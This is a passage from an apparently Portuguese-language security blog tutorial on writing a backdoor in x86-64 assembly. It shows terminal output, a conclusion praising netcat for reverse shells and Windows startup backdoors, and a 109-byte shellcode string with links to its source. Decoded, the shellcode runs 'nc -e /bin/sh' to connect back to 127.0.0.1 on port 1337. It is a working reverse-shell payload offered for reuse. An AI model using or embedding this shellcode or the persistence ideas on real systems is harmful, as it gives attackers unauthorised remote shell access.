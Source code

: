 lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:332 errors:0 dropped:0 overruns:0 frame:0
          TX packets:332 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:23570 (23.0 KiB)  TX bytes:23570 (23.0 KiB)

^C
root@ChmoSec:~/Desktop/linux#
</pre>
<h3> Conclusão </h3>
<p>Como podemos ver Funciona perfeitamente,:D lembrando com netcat podemos fazer inumeras coisa como fazer scanner de porta capturar banner, transferir arquivo ex: nc -l -p8080 > filename.txt , usar o telnet, fazer um telnet reverso,analise de rede, no windows da pra criar até um backdoor só com ele fazendo ele executar quando o windows iniciar e etc.. como falei é um canivete suíço. lembrando tudo depende da sua criatividade é o ponto fundamental nessa área. assembly pode ser um pouquinho confuso, mas praticando vai ser tornando cada vez melhor de se trabalhar, o principio de criar um backdoor foi mostrar que com assembly podemos criar muitas coisas que as programações de alto nível nós oferece, e melhor saber exatamente como o processador se comporta  em tais situações, futuramente vamos entrar ae no assunto de socket's em assembly, meio que um pouco mais complexo, mas da pra compreender e desfrutar desse conhecimento. até o próximo abraços.</p>
<pre>
root@ChmoSec:~/Desktop/linux# ./shellcode.sh backdoor
"\x48\x31\xd2\x48\xbf\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x48\xc1\xef\x08
\x57\x48\x89\xe7\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xe9
\x08\x51\x48\x89\xe1\x48\xbb\xff\xff\xff\xff\xff\xff\x2d\x65\x48\xc1
\xeb\x30\x53\x48\x89\xe3\x49\xba\xff\xff\xff\xff\x31\x33\x33\x37\x49
\xc1\xea\x20\x41\x52\x49\x89\xe2\xeb\x11\x41\x59\x52\x51\x53\x41\x52
\x41\x51\x57\x48\x89\xe6\xb0\x3b\x0f\x05\xe8\xea\xff\xff\xff\x31\x32
\x37\x2e\x30\x2e\x30\x2e\x31"
len:  109
root@ChmoSec:~/Desktop/linux#
</pre>
<p>source: https://github.com/msfcd3r/chmodsecurity/blob/master/backdoor%20.asm<br>
Shellcode: https://github.com/msfcd3r/ASM-64vit/blob/master/backconnect.c </p>
